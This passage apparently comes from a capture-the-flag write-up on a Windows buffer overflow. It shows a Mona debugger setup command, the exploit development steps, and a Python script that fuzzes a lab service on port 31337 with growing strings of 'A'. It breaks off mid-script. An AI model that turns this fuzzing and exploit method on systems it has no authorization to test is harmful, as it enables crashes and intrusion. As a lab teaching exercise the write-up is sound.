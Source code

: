 ![](/assets/img/images/gatekeeper/loading_application.png)

Equally, we set the Mona working folder with the following command :

```
!mona config -set workingfolder c:\mona\%p
```
![](/assets/img/images/gatekeeper/setting_mona.png)

From here, we follow the steps below to exploit the Buffer Overflow.

- Fuzz the application
- Determine the offset
- Find Bad Characters
- Find the Jump point
- Develop the exploit
- Run the exploit.

### Fuzzing

We will utilize the Python Script below to send a series of "A" to the machine to replicate the earlier crash. Take a note at the buffer size where it crashes.

```python
import socket, time, sys
#Enter your Windows IP
ip = "192.168.88.131" 
#Enter Port
port =  31337
timeout = 5
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100
for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        print("Fuzzing with %s bytes" % len(string))
        s.send(string + "\r\n")
        s.recv(1024)
```